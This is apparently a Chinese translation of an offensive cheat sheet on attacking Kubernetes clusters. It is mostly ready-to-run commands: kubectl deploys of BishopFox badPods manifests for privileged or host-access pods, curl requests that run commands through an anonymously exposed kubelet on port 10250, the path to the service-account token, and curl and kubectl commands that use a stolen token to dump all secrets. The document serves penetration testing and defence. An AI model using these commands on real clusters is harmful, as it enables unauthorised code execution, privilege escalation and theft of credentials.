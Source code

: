 # 容器 - Kubernetes

> Kubernetes（通常简称为 K8s）是一个开源的容器编排平台，旨在自动化容器化应用程序的部署、扩展和管理。

## 摘要

- [工具](#工具)
- [漏洞利用](#漏洞利用)
  - [可通过 10250/TCP 访问的 kubelet](#可通过-10250-tcp-访问的-kubelet)
  - [获取服务帐户令牌](#获取服务帐户令牌)
- [参考资料](#参考资料)

## 工具

* [BishopFox/badpods](https://github.com/BishopFox/badpods) - 一系列清单，用于创建具有提升权限的 pod。

  ```ps1
  kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml
  kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv-and-hostpid/pod/priv-and-hostpid-exec-pod.yaml
  kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv/pod/priv-exec-pod.yaml
  kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpath/pod/hostpath-exec-pod.yaml
  kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpid/pod/hostpid-exec-pod.yaml
  kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
  kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml
  kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/nothing-allowed/pod/nothing-allowed-exec-pod.yaml
  ```

* [serain/kubelet-anon-rce](https://github.com/serain/kubelet-anon-rce) - 在允许匿名认证的 kubelet 端点上执行容器中的命令

* [DataDog/KubeHound](https://github.com/DataDog/KubeHound) - Kubernetes 攻击图

  ```ps1
  # 关键路径枚举
  kh.containers().criticalPaths().count()
  kh.containers().dedup().by("name").criticalPaths().count()
  kh.endpoints(EndpointExposure.ClusterIP).criticalPaths().count()
  kh.endpoints(EndpointExposure.NodeIP).criticalPaths().count()
  kh.endpoints(EndpointExposure.External).criticalPaths().count()
  kh.services().criticalPaths().count()
  
  # DNS 服务和端口
  kh.endpoints(EndpointExposure.External).criticalPaths().limit(local,1)
  .dedup().valueMap("serviceDns","port")
  .group().by("serviceDns").by("port")
  ```

## 漏洞利用

### 可通过 10250/TCP 访问的 kubelet

要求：

* `--anonymous-auth`：启用对 Kubelet 服务器的匿名请求

* 获取 pods：`curl -ks https://worker:10250/pods`
* 运行命令：`curl -Gks https://worker:10250/exec/{namespace}/{pod}/{container} -d 'input=1' -d 'output=1' -d'tty=1' -d 'command=ls' -d 'command=/'`

### 获取服务账户令牌

令牌存储在 `/var/run/secrets/kubernetes.io/serviceaccount/token`

使用服务账户令牌：

* 在 `kube-apiserver` API 上：`curl -ks -H "Authorization: Bearer <TOKEN>" https://master:6443/api/v1/namespaces/{namespace}/secrets`
* 与 kubectl 一起使用：`kubectl --insecure-skip-tls-verify=true --server="https://master:6443" --token="<TOKEN>" get secrets --all-namespaces -o json`

## 参考资料

* [通过 Kubelet 攻击 Kubernetes - Withsecure Labs - 2019年1月11日](https://labs.withsecure.com/publications/attacking-kubernetes-through-kubelet)
* [kubehound - 攻击参考](https://kubehound.io/reference/attacks/)
* [KubeHound：识别 Kubernetes 集群中的攻击路径 - Datadog - 2023年10月2日](https://securitylabs.datadoghq.com/articles/kubehound-identify-kubernetes-attack-paths/)